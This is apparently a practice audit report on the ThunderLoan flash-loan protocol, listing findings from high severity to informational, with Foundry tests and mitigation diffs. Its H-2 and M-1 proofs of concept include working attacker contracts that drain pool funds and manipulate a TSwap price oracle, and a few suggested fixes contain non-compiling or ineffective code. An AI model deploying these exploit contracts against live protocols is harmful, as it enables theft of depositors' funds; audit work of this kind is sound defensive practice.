 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.svg" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: Bikalpa</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
    - [\[H-1\] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks the redemption and incorrectly sets the exchange rates.](#h-1-erroneous-thunderloanupdateexchangerate-in-the-deposit-function-causes-protocol-to-think-it-has-more-fees-than-it-really-does-which-blocks-the-redemption-and-incorrectly-sets-the-exchange-rates)
    - [\[H-2\] All the funds can be stolen if the flash loan is returned using deposit()](#h-2-all-the-funds-can-be-stolen-if-the-flash-loan-is-returned-using-deposit)
    - [\[H-3\] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashloanFee` and `ThunderLoan::s_currentlyFlashLoaning`.](#h-3-mixing-up-variable-location-causes-storage-collisions-in-thunderloans_flashloanfee-and-thunderloans_currentlyflashloaning)
    - [\[H-4\] fee are less for non standard ERC20 Token](#h-4-fee-are-less-for-non-standard-erc20-token)
  - [Summary](#summary)
  - [Vulnerability Details](#vulnerability-details)
  - [Impact](#impact)
  - [Recommendations](#recommendations)
  - [Medium](#medium)
    - [\[M-1\] Using TSwap as a price oracle leads to price and oracle manipulation attacks.](#m-1-using-tswap-as-a-price-oracle-leads-to-price-and-oracle-manipulation-attacks)
    - [\[M-2\] No address check of msg.sender at `ThunderLoan::repay`.](#m-2-no-address-check-of-msgsender-at-thunderloanrepay)
  - [Low](#low)
    - [\[L-1\] The address of parameter in calling repay function at `IThunderLoan` is wrong.](#l-1-the-address-of-parameter-in-calling-repay-function-at-ithunderloan-is-wrong)
    - [\[L-2\] The `ThunderLoan::initialize` could be front runned.](#l-2-the-thunderloaninitialize-could-be-front-runned)
    - [\[L-3\] The `ThunderLoan::updateFlashLoanFee` is missing event and emit.](#l-3-the-thunderloanupdateflashloanfee-is-missing-event-and-emit)
  - [Gas](#gas)
    - [\[G-1\] To many of same storage reads in `AssetToken::updateExchangeRate`. This will  consume a lot of gas. It is better to store those storage variable inside a memory.](#g-1-to-many-of-same-storage-reads-in-assettokenupdateexchangerate-this-will--consume-a-lot-of-gas-it-is-better-to-store-those-storage-variable-inside-a-memory)
    - [\[G-2\] The `ThunderLoan::ThunderLoan__ExhangeRateCanOnlyIncrease` is not used anywhere.](#g-2-the-thunderloanthunderloan__exhangeratecanonlyincrease-is-not-used-anywhere)
    - [\[G-3\] The `ThunderLoan::repay` function is nowhere used inside that contract, hence it should be marked external instead of public.](#g-3-the-thunderloanrepay-function-is-nowhere-used-inside-that-contract-hence-it-should-be-marked-external-instead-of-public)
    - [\[G-4\] The The `ThunderLoan::getAssetFromToken` and `ThunderLoan::isCurrentlyFlashLoaning` function is nowhere used inside that contract, hence it should be marked external instead of public.](#g-4-the-the-thunderloangetassetfromtoken-and-thunderloaniscurrentlyflashloaning-function-is-nowhere-used-inside-that-contract-hence-it-should-be-marked-external-instead-of-public)
  - [Informational](#informational)
    - [\[I-1\] The `IThunderLoan` inside `IFlashLoanReceiver` is not used. No need to import it.](#i-1-the-ithunderloan-inside-iflashloanreceiver-is-not-used-no-need-to-import-it)
    - [\[I-2\] The `Ithunderloan` contract should be implemented by thunderloan contract in.](#i-2-the-ithunderloan-contract-should-be-implemented-by-thunderloan-contract-in)
    - [\[I-3\] No zero address check on `OracleUpgradeable::__Oracle_init_unchained`.](#i-3-no-zero-address-check-on-oracleupgradeable__oracle_init_unchained)
    - [\[I-4\] The `s_feePrecision` state variable is remained same throught the code. Hence, it should be marked as immutable](#i-4-the-s_feeprecision-state-variable-is-remained-same-throught-the-code-hence-it-should-be-marked-as-immutable)
    - [\[I-5\] The `ThunderLoan::initialize` has `tswapAddress` in its parameters but in `OracleUpgradeable::__Oracle_init` has `poolFactoryAddress` in its parameters. This will result in incorrect initialization.](#i-5-the-thunderloaninitialize-has-tswapaddress-in-its-parameters-but-in-oracleupgradeable__oracle_init-has-poolfactoryaddress-in-its-parameters-this-will-result-in-incorrect-initialization)
    - [\[I-6\] The `ThunderLoan::deposit` is a crucial function yet does not have any natspecs. It is good practice to have natspec on every function even if it is not that crucial.](#i-6-the-thunderloandeposit-is-a-crucial-function-yet-does-not-have-any-natspecs-it-is-good-practice-to-have-natspec-on-every-function-even-if-it-is-not-that-crucial)
    - [\[I-7\]  The `ThunderLoan::repay` function does not allow nested flash loan.](#i-7--the-thunderloanrepay-function-does-not-allow-nested-flash-loan)

# Protocol Summary

The ⚡️ThunderLoan⚡️ protocol is meant to do the following:

1. Give users a way to create flash loans
2. Give liquidity providers a way to earn money off their capital

Liquidity providers can `deposit` assets into `ThunderLoan` and be given `AssetTokens` in return. These `AssetTokens` gain interest over time depending on how often people take out flash loans!

# Disclaimer

Bikalpa makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

- Commit Hash: 026da6e73fde0dd0a650d623d0411547e3188909

## Scope 

```
├── interfaces
│   ├── IFlashLoanReceiver.sol
│   ├── IPoolFactory.sol
│   ├── ITSwapPool.sol
│   #── IThunderLoan.sol
├── protocol
│   ├── AssetToken.sol
│   ├── OracleUpgradeable.sol
│   #── ThunderLoan.sol
#── upgradedProtocol 
    #── ThunderLoanUpgraded.sol
```

## Roles

- Owner: The owner of the protocol who has the power to upgrade the implementation. 
- Liquidity Provider: A user who deposits assets into the protocol to earn interest. 
- User: A user who takes out flash loans from the protocol.
  
# Executive Summary
We spent 3 days auditing this protocol and found total of 20 bugs.

## Issues found

| Severity | Number of Issue Found |
| -------- | --------------------- |
| High     | 4                     |
| Medium   | 2                     |
| Low      | 3                     |
| gas      | 4                     |
| Info     | 7                     |
| Total    | 20                    |

# Findings
### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks the redemption and incorrectly sets the exchange rates. 

**Introduction** In the Thunderloan system , the `exchangeRate` is responsible for calculating the exchange rate between assetToken and underlying tokens. In a way it is responsible to keeping track of how many fees to give to liquidity providers.

However, the `deposit` function, updates this rate without collecting any fees. This update should be removed.

```javascript

 function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

@>        uint256 calculatedFee = getCalculatedFee(token, amount);
@>        assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```

**Impact** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed token is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or way less than deserved.

**Proof of concept** 
1. LP deposits.
2. User takes out a flash loan.
3. It is now impossible for LP to redeem. 

<details>
<summary>Proof of codes</summary>

Place the following into `ThunderLoan.t.sol`. 

```javascript
 function testRedeemAfterLoan() external setAllowedToken hasDeposits {
 uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

uint256 amountToRedeem = type(uint256).max ;
vm.startPrank(liquidityProvider) ;
thunderLoan.redeem(tokenA , amountToRedeem) ;
    }
```

</details>

**Recommended Mitigation** Removed the incorrectly updated exchange rate lines from `deposit`.

```diff

   function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

-        uint256 calculatedFee = getCalculatedFee(token, amount);
-        assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```

### [H-2] All the funds can be stolen if the flash loan is returned using deposit()

**Description :** The flashloan() performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing endingBalance with startingBalance + fee. However, a vulnerability emerges when calculating endingBalance using token.balanceOf(address(assetToken)).

Exploiting this vulnerability, an attacker can return the flash loan using the deposit() instead of repay(). This action allows the attacker to mint AssetToken and subsequently redeem it using redeem(). What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Impact :** An attacker can acquire a flash loan and deposit funds directly into the contract using the deposit(), enabling stealing all the funds. All the funds of the AssetContract can be stolen.



**Proof of concept :**
Paste the following on `ThunderLoanTest.t.sol`

<details>
<summary> Code </summary>

```javascript
function testUseDepositInsteadOfRepayToStealFunds() external setAllowedToken hasDeposits {
 vm.startPrank(user) ;
 uint256 amountToBorrow = 50e18 ;
 uint256 fee = thunderLoan.getCalculatedFee(tokenA , amountToBorrow) ;
DepositOverRepay dor = new DepositOverRepay(address(thunderLoan)) ;
tokenA.mint(address(dor),fee) ;
thunderLoan.flashloan(address(dor) , tokenA , amountToBorrow , "") ;
dor.redeemMoney() ;
vm.stopPrank() ;

assert(tokenA.balanceOf(address(dor)) > 50e18+fee) ;
 }



 contract DepositOverRepay is IFlashLoanReceiver {
  ThunderLoan thunderLoan ;
  AssetToken assetToken ;
IERC20 s_token ;

    constructor(address _thunderLoan){
thunderLoan = ThunderLoan(_thunderLoan);
    }

     function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool){
            s_token =  IERC20(token) ;
            assetToken = thunderLoan.getAssetFromToken(IERC20(token)) ;
            IERC20(token).approve(address(thunderLoan) , amount+fee) ;
            thunderLoan.deposit(IERC20(token) , amount+fee) ;

return true ;
}

function redeemMoney() external {
uint256 amount = assetToken.balanceOf(address(this)) ;
thunderLoan.redeem(s_token , amount) ;
}
 }
```

</details>

**Recommended Mitigation :** Add a check in deposit() to make it impossible to use it in the same block of the flash loan. For example registring the block.number in a variable in flashloan() and checking it in deposit().

### [H-3] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashloanFee` and `ThunderLoan::s_currentlyFlashLoaning`.

**Description :** `ThunderLoan.sol` has two variables in the following orders :

```javascript
 uint256 private s_feePrecision;
 uint256 private s_flashLoanFee;
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has different order.

```javascript
    uint256 private s_flashLoanFee ; 
    uint256 public constant FEE_PRECISION = 1e18 ;
```

Thunderloan.sol at slot 1,2 and 3 holds s_feePrecision, s_flashLoanFee and s_currentlyFlashLoaning, respectively, but the ThunderLoanUpgraded at slot 1 and 2 holds s_flashLoanFee, s_currentlyFlashLoaning respectively. the s_feePrecision from the thunderloan.sol was changed to a constant variable which will no longer be assessed from the state variable. This will cause the location at which the upgraded version will be pointing to for some significant state variables like s_flashLoanFee to be wrong because s_flashLoanFee is now pointing to the slot of the s_feePrecision in the thunderloan.sol and when this fee is used to compute the fee for flashloan it will return a fee amount greater than the intention of the developer. s_currentlyFlashLoaning might not really be affected as it is back to default when a flashloan is completed but still to be noted that the value at that slot can be cleared to be on a safer side.

**Impact :** 
1. Fee is miscalculated for flashloan
2. users pay same amount of what they borrowed as fee

**Proof of concept :** 
```java
function testUpgradeBreaks() external {
    uint256 feeBeforeUpgrade = thunderLoan.getFee() ;

    vm.startPrank(thunderLoan.owner()) ;
    ThunderLoanUpgraded upgraded= new ThunderLoanUpgraded()  ;
    thunderLoan.upgradeToAndCall(address(upgraded) , "");
    uint256 feeAfterUpgrade = thunderLoan.getFee() ;
    vm.stopPrank() ;

    console2.log("Fee Before :" , feeBeforeUpgrade);
    console2.log("Fee After :" , feeAfterUpgrade);
 
 assert(feeBeforeUpgrade != feeAfterUpgrade);
}
```
Paste the above code in `ThunderLoanTest.t.sol`.

**Recommended Mitigation :** If you must remove the storage variable, leave it as a blank as to not mess up the storage slots.

```diff
- uint256 private s_flashLoanFee;
- uint256 public constant FEE_PRECISION = 1e18;

+    uint256 private blank_space ;
+    uint256 private s_flashLoanFee ; 
+    uint256 public constant FEE_PRECISION = 1e18 ;
```

### [H-4] fee are less for non standard ERC20 Token

## Summary
Within the functions ```ThunderLoan::getCalculatedFee()``` and ```ThunderLoanUpgraded::getCalculatedFee()```, an issue arises with the calculated fee value when dealing with non-standard ERC20 tokens. Specifically, the calculated value for non-standard tokens appears significantly lower compared to that of standard ERC20 tokens.
## Vulnerability Details

//ThunderLoan.sol

```solidity
 function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        //slither-disable-next-line divide-before-multiply
@>        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
@>        //slither-disable-next-line divide-before-multiply
        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;
    }
```

```solidity
//ThunderLoanUpgraded.sol

 function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        //slither-disable-next-line divide-before-multiply
@>        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / FEE_PRECISION;
        //slither-disable-next-line divide-before-multiply
@>        fee = (valueOfBorrowedToken * s_flashLoanFee) / FEE_PRECISION;
    }
```

## Impact
Let's say:
- user_1 asks a flashloan for 1 ETH.
- user_2 asks a flashloan for 2000 USDT.

```solidity
function getCalculatedFee(IERC20 token, uint256 amount) public view returns (uint256 fee) {
        
        //1 ETH = 1e18 WEI
        //2000 USDT = 2 * 1e9 WEI

        uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;

        // valueOfBorrowedToken ETH = 1e18 * 1e18 / 1e18 WEI
        // valueOfBorrowedToken USDT= 2 * 1e9 * 1e18 / 1e18 WEI

        fee = (valueOfBorrowedToken * s_flashLoanFee) / s_feePrecision;

        //fee ETH = 1e18 * 3e15 / 1e18 = 3e15 WEI = 0,003 ETH
        //fee USDT: 2 * 1e9 * 3e15 / 1e18 = 6e6 WEI = 0,000000000006 ETH
    }
```
The fee for the user_2 are much lower then user_1 despite they asks a flashloan for the same value (hypotesis 1 ETH = 2000 USDT). 


## Recommendations
Adjust the precision accordinly with the allowed tokens considering that the non standard ERC20 haven't 18 decimals.

## Medium

### [M-1] Using TSwap as a price oracle leads to price and oracle manipulation attacks.

**Description :** The TSwap protocol is a constant product formula based in AMM. The price of token is determined by how many reserves are on either side of a pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of token in the same transaction, essentially ignoring the protocol fees.

**Impact :** Liquidity providers will drastically reduced fee for providing liquidity.

**Proof of Concept :**

The following all happens in 1 transaction.

1. User takes a flash loan from ThunderLoan for 1000 tokenA. They are charged the original fee fee1. During the flash loan, they do the following:

    1. User sells 1000 tokenA, tanking the price.

2. Instead of repaying right away, the user takes out another flash loan for another 1000 tokenA.

    1. Due to the fact that the way ThunderLoan calculates price based on the TSwapPool, this second flash loan is substantially cheaper.

```javascript
function getPriceInWeth(address token) public view returns (uint256) {
    address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
    return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
}
```

3. The user then repays the first flash loan, and then repays the second flash loan.

<details>
<summary>Code</summary>

```javascript
 function testPriceOracleManipulation() external{
        thunderLoan = new ThunderLoan() ;
    ERC20Mock newTokenA = new ERC20Mock();
       proxy = new ERC1967Proxy(address(thunderLoan) , "");
       BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth)) ;
       address tswapPool = pf.createPool(address(tokenA)) ;
       thunderLoan = ThunderLoan(address(proxy)) ;
       thunderLoan.initialize(address(pf)) ;

       vm.startPrank(liquidityProvider) ;
       tokenA.mint(liquidityProvider , 100e18) ;
       tokenA.approve(address(tswapPool) , 100e18) ;
       weth.mint(liquidityProvider , 100e18) ;
       weth.approve(address(tswapPool) , 100e18) ;
       BuffMockTSwap(tswapPool).deposit(100e18,100e18,100e18,block.timestamp) ;
vm.stopPrank();

vm.prank(thunderLoan.owner()) ;
thunderLoan.setAllowedToken(tokenA , true) ;


vm.startPrank(liquidityProvider) ;
tokenA.mint(liquidityProvider , 1000e18);
tokenA.approve(address(thunderLoan) , 1000e18);
thunderLoan.deposit(tokenA , 100e18) ;
vm.stopPrank() ;

uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA , 100e18) ;
console2.log("Normal Fee Cost Is : ", normalFeeCost);
// 0.296147410319118389

uint256 amountToBorrow = 50e18 ;
MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(address(tswapPool),address(thunderLoan),address(thunderLoan.getAssetFromToken(tokenA))) ;

vm.startPrank(user);
tokenA.mint(address(flr) , 100e18) ;
thunderLoan.flashloan(address(flr) , tokenA, amountToBorrow,"") ;
vm.stopPrank();

uint256 attackedFee = flr.fee1() + flr.fee2() ;
console2.log("attackedFee : ", attackedFee) ;
//0.214167600932190305
assert(attackedFee < normalFeeCost) ;
 }

contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
  ThunderLoan thunderLoan ;
  address repayAddress ;
  BuffMockTSwap tswapPool ;
bool attacked ;
uint256 public fee1 ; 
uint256 public fee2 ;

    constructor(address _tswappool , address _thunderLoan, address _repayAddress){
tswapPool = BuffMockTSwap(_tswappool);
thunderLoan = ThunderLoan(_thunderLoan);
repayAddress = _repayAddress ;
    }

     function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address /*initiator*/,
        bytes calldata /*params*/
    )
        external
        returns (bool){
if(!attacked){
fee1 = fee ;
attacked = true ;

uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18 , 100e18, 100e18) ;
IERC20(token).approve(address(tswapPool) , 50e18) ;
tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought , block.timestamp) ;

thunderLoan.flashloan(address(this) , IERC20(token), amount , "");

// IERC20(token).approve(address(thunderLoan), amount+fee);
// thunderLoan.repay(IERC20(token) , amount+fee);

IERC20(token).transfer(address(repayAddress) , amount+fee) ;

}else{

fee2 = fee ;

// IERC20(token).approve(address(thunderLoan), amount+fee);
// thunderLoan.repay(IERC20(token) , amount+fee);
IERC20(token).transfer(address(repayAddress) , amount+fee) ;

}
return true ;
        }
}
```

</details>

**Recommended Mitigation :** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.

### [M-2] No address check of msg.sender at `ThunderLoan::repay`.

**Description :** The `repay` function inside `ThunderLoan` doesnot contain any sort of check for msg.sender hence resulting in anyone to repay any others flashloan instead of paying flashloan by the one who called it. 

**Impact :** Any one can repay the flashloan of a person.


**Recommended Mitigation :** Create a mapping that stores user address after taking a token.

<details>

```diff
 function repay(IERC20 token, uint256 amount) public { //report-written make it external
        if (!s_currentlyFlashLoaning[token]) {
            revert ThunderLoan__NotCurrentlyFlashLoaning();
        }
        AssetToken assetToken = s_tokenToAssetToken[token];

+         if (msg.sender != s_currentReceiver[token]) {
+        revert ThunderLoan__InvalidRepayer(); 
+    }

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```
</details>

## Low

### [L-1] The address of parameter in calling repay function at `IThunderLoan` is wrong.

**Description :** The `IThunderLoan` interface is calling repay function. However, in `IThunderLoan` function is calling address and in `ThunderLoan` contract the function is calling IERC20 address.

**Impact :** Using address in the interface suggests any address can be passed — even non-token addresses — which might not be safe.

**Proof of Concept :**
1. Malicious or incorrect contract calls `repay` function with a non token address.
2. It will cause revert at runtime.

**Recommended Mitigation :** Correct the calling in `IThunderLoan`.

```diff
+    function repay(IERC20 token, uint256 amount) external;
-    function repay(address token, uint256 amount) external;
```

### [L-2] The `ThunderLoan::initialize` could be front runned.

**Description :** The `ThunderLoan::initialize` is not protected by any onlyOwner modifier. 

**Impact :** `ThunderLoan::initialize` can be front run after deploying `ThunderLoan` contract by mev bots. The attacker then will have all of the power of this contract. He can add his malicious `TswapAddress`.

**Recommended Mitigation :**

```diff
function initialize(address tswapAddress) external initializer {
+   require(msg.sender==trustedInitializer , "No trusted deployer") ;
        __Ownable_init(msg.sender);
        __UUPSUpgradeable_init();
        __Oracle_init(tswapAddress);
        s_feePrecision = 1e18;
        s_flashLoanFee = 3e15; // 0.3% ETH fee
    }
```

### [L-3] The `ThunderLoan::updateFlashLoanFee` is missing event and emit.

**Description :** The updateFlashLoanFee function updates a critical state variable s_flashLoanFee, but does not emit an event upon change. This limits visibility for off-chain services that rely on events to stay in sync with contract state.

**Impact :** 
Off-chain indexers, dashboards, or backend services may fail to detect changes in the flash loan fee.

Users or integrators might operate on outdated fee data, leading to confusion or incorrect UX behavior.

**Proof of Concept :**
a) updateFlashLoanFee(5000) is called.

b) The change is applied on-chain, but no event is emitted.

c) Off-chain systems don't detect the change → frontend still displays old fee (e.g., 3000).

d) Users are surprised to see different fees being charged than expected.

**Recommended Mitigation :**Declare and emit an event when the flash loan fee is updated.
```diff
function updateFlashLoanFee(uint256 newFee) external onlyOwner {
        if (newFee > s_feePrecision) {
            revert ThunderLoan__BadNewFee();
        }
        s_flashLoanFee = newFee;
+       emit(newFee , block.timestamp) ;
    }
```

## Gas

### [G-1] To many of same storage reads in `AssetToken::updateExchangeRate`. This will  consume a lot of gas. It is better to store those storage variable inside a memory.

```diff
  function updateExchangeRate(uint256 fee) external onlyThunderLoan {
+        uint256 exchangeRate = s_exchangeRate ;

        uint256 newExchangeRate = exchangeRate * (totalSupply() + fee) / totalSupply();

        if (newExchangeRate <= exchangeRate) {
            revert AssetToken__ExhangeRateCanOnlyIncrease(exchangeRate, newExchangeRate);
        }
        exchangeRate = newExchangeRate;
        emit ExchangeRateUpdated(exchangeRate);
    }

```

### [G-2] The `ThunderLoan::ThunderLoan__ExhangeRateCanOnlyIncrease` is not used anywhere.

```diff
-    error ThunderLoan__ExhangeRateCanOnlyIncrease(); 
```

### [G-3] The `ThunderLoan::repay` function is nowhere used inside that contract, hence it should be marked external instead of public.

```diff
-    function repay(IERC20 token, uint256 amount) public { 
+    function repay(IERC20 token, uint256 amount) external { 
```

### [G-4] The The `ThunderLoan::getAssetFromToken` and `ThunderLoan::isCurrentlyFlashLoaning` function is nowhere used inside that contract, hence it should be marked external instead of public.

```diff
-     function getAssetFromToken(IERC20 token) public view returns (AssetToken) {
+     function getAssetFromToken(IERC20 token) external view returns (AssetToken) {
-     function isCurrentlyFlashLoaning(IERC20 token) public view returns (bool) {
+     function isCurrentlyFlashLoaning(IERC20 token) external view returns (bool) {
```


## Informational

### [I-1] The `IThunderLoan` inside `IFlashLoanReceiver` is not used. No need to import it.

```diff
- import { IThunderLoan } from "./IThunderLoan.sol";
```

### [I-2] The `Ithunderloan` contract should be implemented by thunderloan contract in.

### [I-3] No zero address check on `OracleUpgradeable::__Oracle_init_unchained`.

```diff
 function __Oracle_init_unchained(address poolFactoryAddress) internal onlyInitializing {
+       require(poolFactoryAddress != address(0)) ;
        s_poolFactory = poolFactoryAddress;
    }
```

### [I-4] The `s_feePrecision` state variable is remained same throught the code. Hence, it should be marked as immutable

```diff
-    uint256 private s_feePrecision;
```

### [I-5] The `ThunderLoan::initialize` has `tswapAddress` in its parameters but in `OracleUpgradeable::__Oracle_init` has `poolFactoryAddress` in its parameters. This will result in incorrect initialization.

### [I-6] The `ThunderLoan::deposit` is a crucial function yet does not have any natspecs. It is good practice to have natspec on every function even if it is not that crucial.

### [I-7]  The `ThunderLoan::repay` function does not allow nested flash loan. 